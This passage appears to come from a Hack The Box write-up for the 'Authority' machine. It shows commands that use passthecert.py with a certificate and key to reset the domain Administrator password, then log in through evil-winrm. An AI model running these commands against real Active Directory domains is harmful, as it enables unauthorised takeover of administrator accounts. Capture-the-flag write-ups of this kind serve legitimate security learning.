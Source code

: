 ![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107003049.png>)

- 2nd way :

We can change the Administrator password to whatever we want and the login via WinRM :

```bash
python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222 -target administrator -new-pass H4ck3d!
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107003835.png>)

```bash
evil-winrm -i 10.10.11.222 -u administrator -p 'H4ck3d!'
```

Voilà I'm in as Administrator :
